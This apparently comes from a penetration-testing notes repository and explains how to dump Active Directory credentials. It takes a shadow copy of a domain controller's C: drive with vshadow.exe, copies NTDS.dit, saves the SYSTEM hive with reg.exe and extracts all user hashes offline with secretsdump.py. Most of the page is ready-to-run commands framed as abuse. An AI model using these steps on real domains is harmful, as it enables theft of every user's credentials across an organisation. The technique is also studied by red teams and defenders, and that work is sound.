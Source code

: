 # Overview
>A [_Shadow Copy_](https://en.wikipedia.org/wiki/Shadow_Copy), also known as _Volume Shadow Service_ (VSS) is a Microsoft backup technology that allows the creation of snapshots of files or entire volumes.
>To manage volume shadow copies, the Microsoft signed binary [_vshadow.exe_](https://learn.microsoft.com/en-us/windows/win32/vss/vshadow-tool-and-sample) is offered as part of the [Windows SDK](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/).
>As domain admins, we can abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database [**NTDS.dit**](https://technet.microsoft.com/en-us/library/cc961761.aspx) database file. Once we've obtained a copy of the database, we need the SYSTEM hive, and then we can extract every user credential offline on our local Kali machine.

# Exploit

- Connect as domain admin user to DC, launch elevated cmd.exe and perform a shadow copy of the entire C: drive :
```cmd
vshadow.exe -nw -p  C:
# Take the shadow copy device name
```
- Copying the ntds database to the C: drive
```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

# Extract system
reg.exe save hklm\system c:\system.bak
```

- Extract the credentials with secretsdump :
```bash
secretsdump.py -ntds ntds.dit.bak -system system.bak LOCAL
```